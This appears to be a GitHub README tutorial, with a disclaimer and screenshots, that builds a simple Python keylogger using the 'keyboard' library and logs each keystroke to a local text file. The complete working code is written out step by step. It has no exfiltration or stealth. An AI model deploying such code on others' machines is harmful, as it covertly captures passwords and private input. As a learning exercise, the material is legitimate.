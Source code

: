 # Keylogger

Basic beginner keylogger

# Disclaimer

This tutorial is for educational purposes only and should only be used on your personal system. 
# Prerequisites

Personal host, I recommend doing this in a Windows VM.

Python, code editor, Im using Visual Studio Code.

# Step 1
Install the Required Library.

Open your command prompt or terminal and execute the following command: "pip install keyboard"

# Step 2 Importing the Necessary Libraries
This library will enable us to work with keyboard inputs. Insert the following line of code:

import keyboard

# Step 3 
Define the Log File

In this example, we’ll use ‘keystrokes.txt’ as the file name. Feel free to modify it as desired. Add the following line of code:

log_file = 'keystrokes.txt'

# Step 4
Create the Key Press Event Function

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write('{}\n'.format(event.name))
        
# Step 5 
Register the Key Press Event

Register the ‘on_key_press’ function to be called whenever a key is pressed. This will enable our code to capture the keystrokes. Add the following line:

keyboard.on_press(on_key_press)
# Step 6 
Finally, we want our program to wait until a key is pressed before it exits. Use the 

‘keyboard.wait()’

function to accomplish this.

# Step 7: 
Run the Code

![Screenshot 2024-07-29 114950](https://github.com/user-attachments/assets/b4c6529f-d7b0-4ef3-b638-9813c1f0cb9b)

Save your Python script with a ‘.py’ extension for example, I named my file "keylogger.py" and stored it on my desktop for easy access. Open your command prompt or terminal, navigate to the directory where the script is located, and execute the command:

py keylogger.py

![Screenshot 2024-07-29 122614](https://github.com/user-attachments/assets/f943a530-664c-4562-bb25-b1f051e2e85f)

 
